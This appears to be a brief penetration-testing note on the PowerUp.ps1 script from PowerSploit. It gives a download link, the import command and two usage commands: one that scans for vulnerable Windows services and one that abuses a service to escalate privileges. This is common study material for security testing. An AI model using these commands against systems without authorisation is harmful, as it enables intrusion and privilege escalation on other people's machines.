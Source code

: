```yaml
---
title: PowerUp
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - ldap
  - windows
  - privilege
  - escalation
  - tools
---
```

# PowerUp.ps1

Run from powershell.


## Installation

Download from PowerSploit Github repo: [https://github.com/ZeroDayLab/PowerSploit](https://github.com/ZeroDayLab/PowerSploit).

```ps
Import-Module .\PowerUp.ps1
```


## Basic commands

```ps
# Find services vulnerables in my machine
Invoke-AllChecks

# Exploit a vulnerable service to escalate to the more privilege user that runs that service
Invoke-ServiceAbuse -Name ‘<NAME OF THE SERVICE>’ -UserName ‘<DOMAIN CONTROLLER>\<MY CURRENT USERNAME>’
```